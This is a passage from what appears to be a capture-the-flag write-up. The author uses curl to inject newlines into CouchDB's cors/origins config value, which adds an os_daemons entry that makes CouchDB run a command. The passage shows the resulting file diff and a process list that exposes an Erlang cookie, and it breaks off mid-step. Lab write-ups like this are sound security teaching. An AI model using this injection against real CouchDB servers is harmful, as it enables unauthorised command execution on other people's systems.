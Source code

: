 Start with a clean and now writable `local.ini` (and a backup):

```
root@canape:/home/homer/etc# ls -l
total 40
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```

We can use curl to modify the origins in the `local.ini` file. The vulnerability here is that if we use curl to put a new origin and then newlines, we can write additional stuff, including a new header and details. So we’ll take advantage of the `[os_daemons]` field, and add a process for CouchDB to try to keep running:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```

In the root shell, we can see what changes:

```
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
<
< [cors]
< origins = 0xdf
<
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```

And yet, the file isn’t there:

```
root@canape:/home/homer/etc# ls /tmp/0xdf
ls: cannot access '/tmp/0xdf': No such file or directory
```

If we look at the processes running with “couchdb” in the cmdline, we see not only the line command line that gives us the cookie value we used earlier, but also `runsrv couchdb`:

```
root@canape:/home/homer/bin# ps aux | grep couch
root        711  0.0  0.0   4240   696 ?        Ss   14:28   0:00 runsv couchdb
root        728  0.0  0.0   4384   812 ?        S    14:28   0:00 svlogd -tt /var/log/couchdb
homer      1785  0.8  3.1 638992 31248 ?        Sl   17:55   0:01 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bi
n/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```

If we kill that process, it comes right back (notice the new pid):
